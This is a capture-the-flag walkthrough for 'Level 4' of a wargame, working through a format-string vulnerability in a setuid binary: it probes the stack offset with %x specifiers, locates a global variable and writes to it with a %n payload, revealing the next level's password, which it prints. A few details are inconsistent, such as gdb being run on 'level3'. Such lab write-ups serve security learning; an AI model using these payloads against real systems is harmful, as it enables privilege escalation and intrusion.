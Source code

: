 # Level 4 Walkthrough

1. **Connect to the target machine**

	```bash
	ssh level4@<vm-ip> -p 4242
	```

2. **Check the files**

	```bash
	ls -l
	```

	Output:

	```
	-rwsr-s---+ 1 level3 users 5138 Mar  6  2016 level4
	```

3. **Test the binary**

	```bash
	./level4
	```

	It waits for input, echoes the input, and exits..


4. **Copy the binary locally for analysis**

	```bash
	scp -P 4242 level4@<vm-ip>:/home/user/level4/level4 .
	```

	Disassemble using Ghidra.

5. **Find the correct stack offset for our input**

	We send a sequence of `%x` format specifiers until we see our `AAAA` in hex:

	```bash
	echo "AAAA %x %x %x %x %x %x %x %x %x %x %x %x" | ./level4
	```

	Output:

	```
	AAAA b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 41414141
	```

	Here, `41414141` (AAAA) appears at position **12**.

6. **Check binary in GDB for variables**

	```bash
	gdb level3
	(gdb) info variables m
	```

	Output:

	```
	0x08049810  m
	```

	This means `m` is a global variable at address in little-endian format: `\x10\x98\x04\x08`

7. **Build and execute the payload**

	```bash
	(printf '\x10\x98\x04\x08'; echo '%16930112d%12$n') | ./level4
	```

	Output:

	```
	...
	-1208015184
	0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
	```

	The first line is some integer printed by the program, the second line is the password for `level5`.
